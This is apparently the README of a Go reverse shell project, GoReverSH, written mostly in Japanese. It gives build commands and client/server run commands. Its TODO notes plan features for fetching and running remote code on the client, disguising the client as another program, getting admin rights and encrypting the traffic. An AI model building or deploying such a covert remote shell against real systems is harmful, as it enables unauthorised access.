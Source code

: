 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

This is Golang ReverseShell

# other 
en@ble@ny

# 詳細

# 使い方
configにホストとポート指定

## IOS
make build
## Windows
make build_win

## Server
./goreversh_server
## Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## 未実装
### Test
TestWaitNotice
TestClist
Cert

### 関数
get hostname
get currentuser


## TODO
[ ]makefile
変数　ビルドファイル名など

[ ]ReadMe

[ ]color

[ ]clean
    ファイル全削除


[ ]upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

[ ]upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


[ ]ダウンロード
    サイズ、パーミッション

[ ]出力ディレクトリ変更コマンド


[ ]別プログラムに偽装　バッチファイルなど
管理権限


[ ]暗号化
TLS -> AES共通鍵


[ ] クライアントテストコード 
計画して一つずつ
connモックを使って読み込みするRead


-[ ] ロゴとアスキーアート


## その他
ゴルーチンリークを注意

build op make　でmainの変数に代入

操作ログを残す
logfile
出力をsetOutputで書き出し


ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある